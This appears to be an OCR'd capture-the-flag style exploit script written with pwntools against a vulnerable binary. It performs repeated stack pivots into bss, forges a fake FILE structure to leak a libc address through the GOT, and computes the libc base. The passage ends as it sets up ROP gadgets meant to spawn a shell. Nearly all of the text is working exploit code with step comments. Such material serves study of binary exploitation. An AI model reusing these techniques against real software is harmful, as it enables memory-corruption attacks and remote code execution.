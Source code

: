 ```python 
""")
input() 

leave = 0x00000000004011c5 

# set up fake_file

fake_file = p64(0xfbad1800) # overwrite _flag to 0xfbad1800

fake_file += p64(0x403fe8)*4 #  overwrite _IO_read_ptr,  _IO_read_end, _IO_read_base, _IO_write_base to the setvbuf@got.plt that have libc

fake_file += p64(0x403fe8 +0x50)*4 # overwrite _IO_write_ptr, _IO_write_end, _IO_buf_base, _IO_buf_end to 0x403fe8 + 0x50 (it will leak 0x50 byte)

# Stack pivot to bss

payload = b'a'*32+p64(exe.bss()+0x400 + 0x20)+p64(exe.sym['main']+42) 
p.sendline(payload)

# Stack pivot again

payload = b'a'*32+p64(0x404200+0x20)+p64(exe.sym['main']+42)
p.sendline(payload)

# Stack pivot again

payload = b'a'*32+p64(0x404340+8+0x20)+p64(exe.sym['main']+42)
p.sendline(payload)

# Stack pivot again

payload = b'a'*32+p64(0x404378+8+0x20)+p64(exe.sym['main']+42)
p.sendline(payload) 

# now we can see the address 0x404378 to have _IO_2_1_stderr_+96 (libc)

# use leave; ret gadget set rsp = 0x404378

payload = p64(exe.sym['main']+42)*4 + p64(0x404378) + p64(leave)
p.sendline(payload)

# now rbp = _IO_2_1_stderr_+96 (libc) , we can overwrite important address to the fake_fil and we will have libc

payload = b'\x00'*32 + p64(exe.bss()+0x100) + p64(exe.sym['main']+42)+b'\x00'*112 + fake_file
p.sendline(payload)

for i in range(0,5):
        p.recvline()
leak = u64(p.recv(6) + b'\0\0')
libc.address = leak - libc.sym['setvbuf']
print("libc leak : ",hex(leak))
print(";ibc base : ",hex(libc.address))

# get shell by ret2ropchain

poprdi = libc.address + 0x000000000002a3e5
poprsi = libc.address + 0x000000000002be51
poprdx = libc.address + 0x000000000011f497
poprax = libc.address + 0x0000000000045eb0
syscall = libc.address + 0x0000000000029db4

```